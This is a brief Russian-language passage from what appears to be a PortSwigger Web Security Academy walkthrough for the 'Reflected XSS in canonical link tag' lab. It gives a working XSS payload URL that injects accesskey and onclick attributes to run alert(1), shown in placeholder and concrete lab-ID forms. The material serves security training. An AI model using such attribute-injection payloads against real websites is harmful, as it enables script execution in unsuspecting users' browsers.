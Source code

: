 Я не смог разобраться как эти гении дошли до финального ответа, но финальный пэйлоад выглядит так 
```
https://YOUR-LAB-ID.web-security-academy.net/?'accesskey='x'onclick='alert(1)
```
```
https://0ad800bc048ee06d82be2e95007200a2.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/17.%20Reflected%20XSS%20in%20canonical%20link%20tag/pics%20for%20walkthrough/1.png)
и получим уведомление об успешно выполненной лабораторной работе
